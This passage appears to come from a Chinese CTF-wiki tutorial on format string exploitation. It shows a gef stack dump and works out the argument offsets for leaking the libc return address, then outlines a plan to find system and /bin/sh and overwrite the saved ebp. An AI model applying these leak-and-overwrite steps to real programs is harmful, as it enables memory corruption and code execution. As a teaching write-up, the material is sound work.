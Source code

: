 ```shell
0xffffcd28│+0x2c: 0x0804c410  →  "11111"
0xffffcd2c│+0x30: 0x0804c420  →  "1234567"
0xffffcd30│+0x34: 0xf7fadd60  →  0xfbad2887
0xffffcd34│+0x38: 0x08048ed6  →  0x25007325 ("%s"?)
0xffffcd38│+0x3c: 0x0804b0a0  →  0x0804c420  →  "1234567"
0xffffcd3c│+0x40: 0x00000000
0xffffcd40│+0x44: 0xf7fad000  →  0x001b1db0
0xffffcd44│+0x48: 0x00000000
0xffffcd48│+0x4c: 0xffffcd78  →  0x00000000
0xffffcd4c│+0x50: 0x080487a2  →   jmp 0x80487b3
0xffffcd50│+0x54: 0x0804b0a0  →  0x0804c420  →  "1234567"
0xffffcd54│+0x58: 0xffffcd68  →  0x00000004
0xffffcd58│+0x5c: 0x00000050 ("P"?)
0xffffcd5c│+0x60: 0x00000000
0xffffcd60│+0x64: 0xf7fad3dc  →  0xf7fae1e0  →  0x00000000
0xffffcd64│+0x68: 0x08048288  →  0x00000082
0xffffcd68│+0x6c: 0x00000004
0xffffcd6c│+0x70: 0x0000000a
0xffffcd70│+0x74: 0xf7fad000  →  0x001b1db0
0xffffcd74│+0x78: 0xf7fad000  →  0x001b1db0
0xffffcd78│+0x7c: 0x00000000
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
0xffffcd80│+0x84: 0x00000001
0xffffcd84│+0x88: 0xffffce14  →  0xffffd00d  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/201[...]"
0xffffcd88│+0x8c: 0xffffce1c  →  0xffffd058  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
```

我们可以通过简单的判断可以得到

```
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
```

存储的就是main相应的地址，同时利用fmtarg来获取对应的偏移，可以看出其偏移为32，那么相对于格式化字符串的偏移为31。

```shell
gef➤  fmtarg 0xffffcd7c
The index of format argument : 32
```

这样我们便可以得到对应的地址了。进而可以根据libc-database来获取对应的libc，继而获取system函数地址与/bin/sh函数地址了。

其次，我们可以确定栈上存储格式化字符串的地址0xffffcd2c相对于格式化字符串的偏移为6，得到这个是为了构造我们的联系人。

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为11，这样我们可以直接修改上层函数存储的ebp的值。

```shell
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
```

### 构造联系人获取堆地址

得知上面的信息后，我们可以利用下面的方式获取堆地址与相应的ebp地址。
